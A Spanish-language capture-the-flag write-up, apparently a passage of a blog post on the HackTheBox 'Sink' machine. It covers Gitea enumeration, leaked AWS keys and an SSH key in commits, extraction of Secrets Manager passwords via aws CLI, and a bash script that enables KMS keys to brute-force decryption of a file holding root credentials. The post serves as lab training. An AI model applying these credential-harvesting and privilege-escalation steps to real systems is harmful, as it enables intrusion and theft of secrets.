Pero al colocarlos en la web, ninguno redirecciona a ningún sitio. Y pues tiene sentido, no sabemos en qué puerto están corriendo por lo tanto no encuentra realmente lo que tiene que resolver... Pero pues tenemos credenciales y si recordamos, hay un servicio sobre el puerto `3000` (**Gitea**) con panel login (y en el cual uno de los usuarios era `root`), intentemos usar la contraseña que tenemos de `root` sobre ese login:

![313page3000_root_login](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_login.png)

Yyyyy:

![313page3000_root_login_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_login_done.png)

Perfecto, tamos dentro, ahoraaaaaaaaaaaaaaaaaaa a enumerar :P

---

## Enumeramos el servicio <u>Gitea</u> como el usuario <u>root</u> [📌](#gitea-root) {#gitea-root}

Nos encontramos con **4** repositorios (aunque solo se vean 3 en la imagen hay **4**):

![313page3000_root_repos](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repos.png)

```html
'root' created repository 'root/Key_Management'
2 months ago
```

O sea que tenemos:

```html
Repositorios:

* Log_Management.
* Key_Management.
* Serverless-Plugin.
* Kinesis_ElasticSearch.
```

Revisando cada uno, sus respectivos commits y contenido encontramos esto:

* El usuario `marcus` <u>es el que hace los push (sube los cambios)</u>, `root` simplemente crea los repos.

**Cositas relevantes de cada repo**:

...

### 🪕 Log_Management (commits)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_logMan_commits.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si entramos en ese commit, tenemos el `access key ID` y la `secret access key` de `AWS` (Amazon Web Services):

```php
<?php
require 'vendor/autoload.php';

use Aws\CloudWatchLogs\CloudWatchLogsClient;
use Aws\Exception\AwsException;

$client = new CloudWatchLogsClient([
        'region' => 'eu',
        'endpoint' => 'http://127.0.0.1:4566',
        'credentials' => [
                'key' => 'AKIAIUEN3QWCPSTEITJQ',
                'secret' => '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'
        ],
        'version' => 'latest'
]);
try {
$client->createLogGroup(array(
        'logGroupName' => 'Chef_Events',
));
}
catch (AwsException $e) {
    echo $e->getMessage();
    echo "\n";
}
try {
$client->createLogStream([
        'logGroupName' => 'Chef_Events',
        'logStreamName' => '20201120'
]);
}catch (AwsException $e) {
    echo $e->getMessage();
    echo "\n";
}
?>
```

Podemos tenerlo en cuenta (además del puerto `4566` sobre el `lo), ya que en el siguiente commit esos valores son remplazados:

![313page3000_root_repo_logMan_commit_prepProd](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_logMan_commit_prepProd.png)

...

### 🪕 Key_Management (commits)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_commits.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora entremos en ese commit en concreto:

![313page3000_root_repo_keyMan_keyfound](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_keyfound.png)

Nos encontramos con la **llave privada** de un usuario (posiblemente de `marcus`) guardada en el archivo `.keys/dev_keys`. 

En el mismo commit vemos como usa la llave mediante el objeto `ec2.php`:

```php
<?php

require 'vendor/autoload.php';
use Aws\Ec2\Ec2Client;

$ec2Client = new Aws\Ec2\Ec2Client([
    'region' => 'eu',
    'version' => '2020-12-21',
    'profile' => 'default',
    'endpoint' => 'http://127.0.0.1:4566'
]);

$keyPairName = 'dev_keys';

$result = $ec2Client->createKeyPair(array(
    'KeyName' => $keyPairName
));

// Save the private key
$saveKeyLocation = getenv('HOME') . ".keys/{$keyPairName}";
file_put_contents($saveKeyLocation, $result['keyMaterial']);

// Update the key's permissions so it can be used with SSH
chmod($saveKeyLocation, 0600);
```

Y para pasar a producción cambian el archivo `dev_keys` por `prod_keys`:

![313page3000_root_repo_keyMan_keychanged](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_keychanged.png)

...

Bueno, pues probemos a copiarnos esa key, pasarla a un archivo, darle los permisos necesarios (`chmod 600 <file>`) e intentar acceder mediante `SSH` con alguno de los usuarios, inicialmente con `marcus` que fue el que hizo el push:

> En los demás repos no encontre nada realmente relevante :s

```bash
❭ chmod 600 dev_keys 
❭ ssh marcus@10.10.10.225 -i dev_keys 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-53-generic x86_64)
...
```

Yyyyy estamos dentroooooooooooooooooo:

```bash
marcus@sink:~$ id
uid=1001(marcus) gid=1001(marcus) groups=1001(marcus)
marcus@sink:~$ ls
user.txt
marcus@sink:~$ ls /home
david  git  marcus
marcus@sink:~$
```

Niceeeeeeeeeeeeeeeeeee. LOCO LOCOOOOOOOOOOOOOOo lo del **smuggling**. 

Ahora si, quien sabe que nos espere :o

...

# AWS Secrets: <u>marcus</u> -> <u>david</u> [#](#movimiento-lateral) {#movimiento-lateral}

Si enumeramos servicios recordamos al puerto que habíamos visto antes, el `4566`:

```bash
marcus@sink:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11          0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-1        0.0.0.0:*               LISTEN
tcp        0      0 localhost:34833         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-2        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-3        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-4        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-5        0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-6        0.0.0.0:*               LISTEN
tcp        0      0 localhost:4566          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-7        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6008         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6009         0.0.0.0:*               LISTEN
tcp        0      0 localhost:smtp          0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6010         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6011         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6012         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6013         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6014         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6015         0.0.0.0:*               LISTEN
...
```

Además de muchos otros pero sobre una IP diferente que me recordo a `Docker`, enumeremos el servicio `docker` a ver que encontramos:

```bash
marcus@sink:~$ systemctl status docker
● docker.service - Docker Application Container Engine
     Loaded: loaded (/lib/systemd/system/docker.service; disabled; vendor preset: enabled)
     Active: active (running) since Wed 2021-02-24 25:25:25 UTC; 25h ago
TriggeredBy: ● docker.socket
       Docs: https://docs.docker.com
   Main PID: 1487 (dockerd)
      Tasks: 147
     Memory: 150.5M
     CGroup: /system.slice/docker.service
             ├─1487 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
             ├─2225 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 4566 -container-ip 172.18.0.2 -container-port 4566
             ├─2313 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6000 -container-ip 172.17.0.2 -container-port 8080
             ├─2363 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6010 -container-ip 172.17.0.3 -container-port 8080
             ├─2394 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6007 -container-ip 172.17.0.4 -container-port 8080
             ├─2447 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6013 -container-ip 172.17.0.5 -container-port 8080
             ├─2502 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6012 -container-ip 172.17.0.6 -container-port 8080
             ├─2552 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6002 -container-ip 172.17.0.7 -container-port 8080
             ├─2594 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6011 -container-ip 172.17.0.8 -container-port 8080
             ├─2642 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6014 -container-ip 172.17.0.9 -container-port 8080
             ├─2682 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6009 -container-ip 172.17.0.10 -container-port 8080
             ├─2740 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6015 -container-ip 172.17.0.11 -container-port 8080
             ├─2780 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6006 -container-ip 172.17.0.12 -container-port 8080
             ├─2844 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6005 -container-ip 172.17.0.13 -container-port 8080
             ├─2873 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6001 -container-ip 172.17.0.14 -container-port 8080
             ├─2907 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6003 -container-ip 172.17.0.15 -container-port 8080
             ├─2953 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6008 -container-ip 172.17.0.16 -container-port 8080
             └─3115 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6004 -container-ip 172.17.0.17 -container-port 8080
marcus@sink:~$ 
```

Opa, vemos que esta corriendo varios contenedores, al inicio tenemos al que estamos buscando:

```bash
...
├─2225 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 4566 -container-ip 172.18.0.2 -container-port 4566
...
```

Bien, sabemos que es un contenedor. Validemos que esta corriendo sobre él:

```bash
marcus@sink:~$ curl http://localhost:4566 ; echo
{"status": "running"}
```

Esta respuesta me acordó a la máquina:

<details>
  <summary><strong>Spoiler: Nombre de la otra máquina</strong></summary>
  
  <code>Bucket</code>

</details>

En la que también jugábamos con `AWS` y contenedores. 

Podemos hacer dos cosas, un `Remote Port Forwarding` (redireccionamiento de puertos) y validar con `nmap` si encontramos algo y además hacer algo de `fuzzing` para ver si hay otras rutas... O podemos volver a hablar de la máquina (**del spoiler**) y recordar que en el fuzzing hecho allá, obteníamos la ruta `/health` que nos sirve para validar el rendimiento y disponibilidad de los recursos de **AWS**.

* [¿Qué es AWS Health?](https://docs.aws.amazon.com/es_es/health/latest/ug/what-is-aws-health.html)

Entonces podemos hacer una petición ahora junto al `/health` y ver que servicios (y su estado) esta corriendo `AWS`:

```bash
marcus@sink:~$ curl http://localhost:4566/health ; echo
{"services": {"logs": "running", "secretsmanager": "running", "kms": "running"}}
```

Perfectowowo e.e Pues tenemos 3 servicios activos y corriendo:

* [logs](https://docs.aws.amazon.com/cli/latest/reference/logs/index.html)
* [secretsmanager](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/index.html)
* [kms](https://docs.aws.amazon.com/cli/latest/reference/kms/index.html)

Y podemos apoyarnos del `API` de `Amazon Web Services (aws)` para jugar con lo que encontramos y ver si podemos sacar algo importante:

Probemos con [logs](https://docs.aws.amazon.com/cli/latest/reference/logs/index.html) primero, intentemos ver la descripción de los grupos de logs creados:

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 --region us-east-1 logs describe-log-groups
Unable to locate credentials. You can configure credentials by running "aws configure".
```

Si ejecutamos ese comando nos pide:

```bash
marcus@sink:~$ aws configure
AWS Access Key ID [None]:
AWS Secret Access Key [None]:
Default region name [None]:
Default output format [None]:
```

Si recordamos en `Gitea` habíamos encontrado un commit que tenía esta información, busquémosla y pongámosla acá...

```php
...
$client = new CloudWatchLogsClient([
        'region' => 'eu',
        'endpoint' => 'http://127.0.0.1:4566',
        'credentials' => [
                'key' => 'AKIAIUEN3QWCPSTEITJQ',
                'secret' => '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'
        ],
        'version' => 'latest'
]);
...
```

**(Aunque para comprobar el funcionamiento coloque primero cualquier valor en los dos y aun así me trajo la información, así que no es necesaria esta config (supongo))**

```bash
marcus@sink:~$ aws configure
AWS Access Key ID [None]: asd
AWS Secret Access Key [None]: asdfsadf
Default region name [None]: us-east-1
Default output format [None]: json
```

* [¿Dónde se guardan las configuraciones hechas mediante **AWS CLI**?](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html#cli-configure-files-where).

Y si ejecutamos de nuevo:

```json
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 logs describe-log-groups
{
    "logGroups": [
        {
            "logGroupName": "cloudtrail",
            "creationTime": 1614265741999,
            "metricFilterCount": 0,
            "arn": "arn:aws:logs:us-east-1:000000000000:log-group:cloudtrail",
            "storedBytes": 91
        }
    ]
}
```

Listones, si jugamos así con algunos parámetros podremos ir descubriendo info.

Ahora veamos algo de [secretsmanager](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/index.html):

```json
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager list-secrets
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv",
            "Name": "Jenkins Login",
            "Description": "Master Server to manage release cycle 1",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "53cf9fdf-cb47-4b35-9ba1-046bcb43cfb6": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI",
            "Name": "Sink Panel",
            "Description": "A panel to manage the resources in the devnode",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "97d47d9b-6e95-459e-a0b4-60411a9054d2": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "b07ec8cf-4f71-41bb-b20b-023d874be8a9": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

Obtenemos 3 plataformas:

* Jenkins Login: Master Server to manage release cycle 1.
* Sink Panel: A panel to manage the resources in the devnode.
* Jira Support: Manage customer issues.

Si intentamos ver alguna data en concreto (los secretos) podemos hacerlo usando el ID, que sería el valor `"ARN"`. 

Por ejemplo, veamos el valor secreto de **Jenkins Login** (`get-secret-value`):

🛹 **<u>Jenkins Login</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv",
    "Name": "Jenkins Login",
    "VersionId": "53cf9fdf-cb47-4b35-9ba1-046bcb43cfb6",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~Bj\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

Opa, el valor secreto son unas credenciales:

* `john@sink.htb` : `R);\\)ShS99mZ~Bj` o `R);\)ShS99mZ~Bj`

Antes de ver si son funcionales, validemos con los otros 2 IDs para ver que tienen:

🛹 **<u>Sink Panel</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI",
    "Name": "Sink Panel",
    "VersionId": "97d47d9b-6e95-459e-a0b4-60411a9054d2",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

* `albert@sink.htb` : `Welcome123!`

🛹 **<u>Jira Support</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR",
    "Name": "Jira Support",
    "VersionId": "b07ec8cf-4f71-41bb-b20b-023d874be8a9",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EAL8=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

* `david@sink.htb` : `EAL8=bcC=`a7f2#k`

Acá `david` es interesante porque lo tenemos presente como usuario de `Gitea` y también como usuario de la propia máquina. Validemos en el panel login de `Gitea` estas credenciales:

![313page3000_david_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_david_dashboard.png)

Son funcionales. Probemos si podemos hacer reutilización de contraseñas e intentemos migrarnos a `david` pero desde el sistema:

```bash
marcus@sink:~$ su david
Password: 
david@sink:/home/marcus$ whoami
david
david@sink:/home/marcus$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@sink:/home/marcus$ 
```

**Perfectoooooooooooooooooooooooooooooooooooo, somos `david` ahora (:**

Antes, veamos si hay algo importante usando `kms` con `AWS CLI`:

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 kms list-keys
{
    "Keys": [
        { 
            "KeyId": "0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/0b539917-5eff-45b2-9fa1-e13f0d2c42ac"
        },
        { 
            "KeyId": "16754494-4333-4f77-ad4c-d0b73d799939",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/16754494-4333-4f77-ad4c-d0b73d799939"
        },
        { 
            "KeyId": "2378914f-ea22-47af-8b0c-8252ef09cd5f",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2378914f-ea22-47af-8b0c-8252ef09cd5f"
        },
        { 
            "KeyId": "2bf9c582-eed7-482f-bfb6-2e4e7eb88b78",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2bf9c582-eed7-482f-bfb6-2e4e7eb88b78"
        },
        { 
            "KeyId": "53bb45ef-bf96-47b2-a423-74d9b89a297a",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/53bb45ef-bf96-47b2-a423-74d9b89a297a"
        },
        { 
            "KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0"
        },
        { 
            "KeyId": "837a2f6e-e64c-45bc-a7aa-efa56a550401",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/837a2f6e-e64c-45bc-a7aa-efa56a550401"
        },
        { 
            "KeyId": "881df7e3-fb6f-4c7b-9195-7f210e79e525",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/881df7e3-fb6f-4c7b-9195-7f210e79e525"
        },
        {
            "KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/c5217c17-5675-42f7-a6ec-b5aa9b9dbbde"
        },
        {
            "KeyId": "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"
        },
        {
            "KeyId": "f2358fef-e813-4c59-87c8-70e50f6d4f70",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f2358fef-e813-4c59-87c8-70e50f6d4f70"
        }
    ]
}
```

Tenemos unas **keys**, no sé si sean relevantes, pero pues para tenerlas en cuenta, de los otros parámetros no podemos obtener algo. Sigamos...

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En el `/home` de `david` tenemos un par de carpetas que nos llevan a un objeto`.enc`:

```bash
david@sink:~$ ls
Projects
david@sink:~$ cd Projects/
david@sink:~/Projects$ ls
Prod_Deployment
david@sink:~/Projects$ cd Prod_Deployment/
david@sink:~/Projects/Prod_Deployment$ ls
servers.enc
david@sink:~/Projects/Prod_Deployment$ file servers.enc 
servers.enc: data
```

Intentando crackearlo no hacemos nada :P Veamos que podemos relacionar para leer el archivo.

Bueno, buscando encontramos como se pudo haber generado el archivo mediante `aws`:

* [How to encrypt and decrypt with **AWS CLI**](https://aws.amazon.com/blogs/security/how-to-encrypt-and-decrypt-your-data-with-the-aws-encryption-cli/).

Podemos ver que para generar el archivo se usa un `keyId` yyyyyyy anteriormente encontramos varios `keyId`s. **Tengamos esto presente**...

No contamos con `aw, pero mediante `kms` tenemos varias funciones para jugar con los `keyId`, una llamada [decrypt](https://docs.aws.amazon.com/cli/latest/reference/kms/decrypt.html):

* [AWS CLI **kms decrypt**](https://docs.aws.amazon.com/cli/latest/reference/kms/decrypt.html).

Entonces, según la documentación el argumento obligatorio seria:

* `--ciphertext-blob fileb://`: Que ahí le indicamos la ruta del archivo `.enc`

Podemos intentar desencriptar el archivo `servers.enc`:

```bash
# Con ruta absoluta:
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --ciphertext-blob fileb://home/david/Projects/Prod_Deployment/servers.enc 

Error parsing parameter '--ciphertext-blob': Unable to load paramfile fileb://home/david/Projects/Prod_Deployment/servers.enc: [Errno 2] No such file or directory: 'home/david/Projects/Prod_Deployment/servers.enc'
```

```bash
# Escapando la ruta absoluta:
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (AccessDeniedException) when calling the Decrypt operation: The ciphertext refers to a customer master key that does not exist, does not exist in this region, or you are not allowed to access.
```

Pero nada, solo vemos errores, entiendo que debemos indicarle la `keyId`, elijamos cualquiera y veamos que sucede:

```bash
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (DisabledException) when calling the Decrypt operation: f0579746-10c3-4fd1-b2ab-f312a5a0f3fc is disabled.
```

Nos indica que la operación `Decrypt` esta inhabilitada para esa `key`, leyendo de nuevo la doc de **kms** hay un argumento para habilitar una `key`, probemos a ver si de eso se trata el error:

```bash
# Habilitamos
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"

# Ejecutamos de nuevo
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
```

Obtenemos un error diferente, relacionado posiblemente a la desencriptación en concreto (` Invalid Ciphertext`) o quizás a que esa `key` no es la necesaria para ese archivo... 

Creémonos un script para que nos valide con todas las keys.

Las extraemos:

![313bash_davidSH_listkeys_grep_cut](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_listkeys_grep_cut.png)

En el script las guardaremos en un archivo temporal para ir leyendo cada una, ahora si hagamos el archivo:

* Agregaremos los argumentos `--output text` y `--query Plaintext` (***These parameters extract the decrypted data, called the plaintext, from the command's output.***)

---

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp

while read keyId; do  # Tomamos cada llave del archivo
    # Habilitamos la llave
    aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

    echo -ne "\n$keyId:"
    # Desencriptamos el archivo servers.enc
    aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext
done < $file_with_keys

shred -zun 10 $file_with_keys
```

Pero no obtenemos nada...

![313bash_davidSH_valkeria_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_valkeria_fail.png)

Probemos a jugar con los métodos de encriptación:

```html
> Specifies the encryption algorithm that will be used to decrypt the ciphertext.
>> Possible values:
>>
>>    SYMMETRIC_DEFAULT
>>    RSAES_OAEP_SHA_1
>>    RSAES_OAEP_SHA_256
```

Entonces adecuando esto a nuestro script quedaría:

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp
types_algorithms=( SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256 )

while read keyId; do
    echo -e "\n[+] Llave: $keyId:"
    for algorithm in "${types_algorithms[@]}"; do # Tomamos cada algoritmo del array y probamos
        echo -ne "[*] Algoritmo: $algorithm"

        # Habilitamos la llave
        aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

        # Desencriptamos el archivo servers.enc
        aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --encryption-algorithm $algorithm
    done
done < $file_with_keys

shred -zun 10 $file_with_keys
```

Ejecutamos yyyy:

```bash
david@sink:/dev/shm/testest$ ./valkeria.sh

[+] Llave: 0b539917-5eff-45b2-9fa1-e13f0d2c42ac:
[*] Algoritmo: SYMMETRIC_DEFAULT

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
[*] Algoritmo: RSAES_OAEP_SHA_1

An error occurred (InvalidCiphertextException) when calling the Decrypt operation:
...
```

![313bash_davidSH_valkeria_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_valkeria_done.png)

Opaaaaaaa, logramos desencriptar el archivo y ver el contenido, tenemos una cadena en `base64`:

* La llave: `804125db-bdf1-465a-a058-07fc87c0fad0`.
* El tipo de algoritmo: `RSAES_OAEP_SHA_256`.

Si intentamos decodear esa string obtenemos:

![313bash_tryingdecodebase64stringwithecho](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_tryingdecodebase64stringwithecho.png)

No obtenemos nada legible, pero de una vez pensé en que posiblemente sea data de algún archivo, entonces tomemos el resultado del decode y guardémoslo en un archivo y veamos que tipo de archivo es:

```bash
...
glEwRAEATgL7TAAoAAA=" | base64 -d > result_b64
```

```bash
❭ file result_b64 
result_b64: gzip compressed data, from Unix, original size modulo 2^32 10240
```

Bien, un archivo comprimido, descomprimámoslo:

```bash
❭ gzip -d result_b64
gzip: result_b64: unknown suffix -- ignored
```

Jmmm, buscando en internet sobre este error, encontramos un foro donde alguien recomienda usar `zcat`:

* [Try to use **zcat**](https://www.linuxquestions.org/questions/linux-software-2/gunzip-unknown-suffix-ignored-940698/).

¿Pero por qué `zcat`?

📁 ***Normalmente, los archivos comprimidos con `gzip` se pueden restaurar a su forma original con los comandos `gzip -d` o `gunzip`. ¿<u>Qué sucede si desea ver el contenido de un archivo comprimido sin descomprimirlo</u>? Para este propósito, necesita la utilidad `zcat`***. [linux-console](https://es.linux-console.net/?p=243)

📂 ***`zcat` will uncompress files that have the correct magic number whether they have a `.gz` suffix or <u>not</u>***. [linuxquestions.org](https://www.linuxquestions.org/questions/linux-software-2/gunzip-unknown-suffix-ignored-940698/#post4657625)

Entonces, si probamos ahora con `zcat`:

![313bash_zcatdecompress_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_zcatdecompress_done.png)

Eaaa, tenemos un archivo `.yml`, donde en su contenido nos encontramos con unas credenciales del usuario `admin`. Probémoslas contra el usuario `root` en la máquina:

```bash
david@sink:/dev/shm/testest$ su root
Password: 
root@sink:/dev/shm/testest# id
uid=0(root) gid=0(root) groups=0(root)
```

Somos **roooooooooooooooooooooooooooooooooooooooot** (bueno, veamos si realmente lo somos):

```bash
root@sink:/dev/shm/testest# cd
root@sink:~# ls
automation  desync  docker-compose.yml  root.txt  snap
```

SÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ somos administradores del sistemaaaaaaaaa (: 

Solo nos quedaría ver las flags...

![313flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313flags.png)

...

¡Qué locura eh!

Me gusto demasiado la máquina (: Lo que más me dejo loco fue el `HTTP Request Smuggling`. 

Que bonito fue este camino. el jugar con `aws` de esa manera, increíble. Y nada, como siempre, muchas gracias por leer (este si fue gigante)...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313google_gif_youarethebestTED.gif" style="display: block; margin-left: auto; margin-right: auto; width: 50%;"/>

Yyyy a seguir rompiendo todo (: 
